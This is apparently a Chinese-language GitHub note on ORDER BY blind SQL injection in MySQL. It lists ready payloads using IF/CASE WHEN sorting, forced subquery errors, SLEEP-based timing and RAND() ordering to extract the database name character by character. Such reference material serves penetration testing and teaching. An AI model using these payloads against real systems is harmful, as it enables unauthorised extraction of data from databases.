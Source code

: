 ### ORDER BY 盲注
#### 已知字段名
```
利用排序顺序盲注

// IF
IF((SELECT ASCII(SUBSTR(DATABASE(), 1, 1)))>100, username, password)

// CASE WHEN
CASE WHEN ((SELECT ASCII(SUBSTR(DATABASE(), 1, 1)))>100) THEN username ELSE password END
```


#### 未知字段名
在未知字段名的情况下

##### 利用MYSQL报错
此报错与报错注入的报错不一样，只是在FALSE的时候让语句执行产生错误
```
如果条件不满足，触发FALSE，SQL语句会产生错误
数据库报错信息为： Subquery returns more than 1 row

// IF
IF((SELECT ASCII(SUBSTR(DATABASE(), 1, 1)))>100, 1, (SELECT 1 FROM information_schema))

// CASE WHEN
CASE WHEN ((SELECT ASCII(SUBSTR(DATABASE(), 1, 1)))>100) THEN 1 ELSE (SELECT 1 FROM information_schema) END


// 可以造成同样的错误
IF((SELECT ASCII(SUBSTR(DATABASE(), 1, 1)))>100, 1, (SELECT 1 UNION SELECT 2))
```

##### 利用时间盲注
```
// IF
IF((SELECT ASCII(SUBSTR(DATABASE(), 1, 1)))=100, SLEEP(5), 1)

// CASE WHEN
CASE WHEN ((SELECT ASCII(SUBSTR(DATABASE(), 1, 1)))>100) THEN SLEEP(5) ELSE 1 END
```

##### 基于RAND()盲注
```
RAND(TRUE) // 0.15522042769493574200000
RAND(FALSE) // 0.40540353712197724200000

// TRUE/FALSE 所返回的内容不同，可以根据排序顺序来判断
SELECT * FROM users ORDER BY RAND(TRUE/FALSE)

// Payload
RAND( (SELECT ASCII(SUBSTR(DATABASE(), 1, 1)))>100 )
```
